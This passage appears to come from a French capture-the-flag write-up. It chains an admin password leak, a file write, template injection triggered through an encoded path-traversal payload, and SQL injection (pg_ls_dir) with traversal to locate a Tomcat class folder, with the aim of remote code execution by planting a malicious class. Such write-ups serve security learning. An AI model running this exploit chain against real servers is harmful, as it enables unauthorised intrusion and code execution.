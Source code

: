 ```python
c = client(url = 'http://<ip>:8080')
admin_passwd = c.leak_admin_password()
c.login('admin', admin_passwd)
c.file_write(
    data='__${7*7}__::.x',
    path=f"/tmp/rce"
)
c.notify(payload='..%5ctmp/rce%3F')
```

On obtient bien dans les logs docker: 
```
Error resolving template [49], template might not exist or might not be accessible by any of the configured Template Resolvers
```

![Alt text](./img/screen9.png)

### SSTI to RCE
Maintenant que nous avons notre injection de template, nous devons trouver un moyen d'éxécuter du code.

Beaucoup de choses ont été testées, comme par exemple l'utilisation de ``T(java.lang.Runtime).getRuntime()`` ou encore la librairie vulnérable ``SnakeYaml``. Aucune de ces tentatives n'a fonctionné... 

Finalement, nous avons utilisé ``strace`` pour regarder les appels système fait pas le serveur WEB:  
```bash
sudo apt install strace
sudo strace -fie file -p $(pidof -s java)
```

Le serveur tenté de charger des class depuis un dossier de */tmp*: ``/tmp/tomcat-docbase.8080.4797479350720433534/WEB-INF/classes/``:  
```
[pid    80] [00007fb0552b43a6] stat("/tmp/tomcat-docbase.8080.4797479350720433534/WEB-INF/classes", {st_mode=S_IFDIR|0755, st_size=4096, ...}) = 0
```

L'idée est la suivante:   
- Ecrire une class malveillante dans **/tmp/Tfns.class**  
- Utiliser la SQLI pour trouver le dossier tomcat  
- Créer un dossier **/tmp/tomcat-docbase.8080.4797479350720433534/WEB-INF/classes/**  
- Copier **/tmp/Tfns.class** dans le dossier créer  
- Charger la class  

On peut récuperer le nom du dossier sur le serveur de la manière suivante:  
```python
class client:
    def __init__(self, url):
        ...

    def file_list(self, path):
        self.sqli(query=f"SELECT pg_ls_dir('{path}')")


c = client(url = 'http://<ip>:8080')
admin_passwd = c.leak_admin_password()
c.login('admin', admin_passwd)
c.file_list('./../../../../../tmp')
```

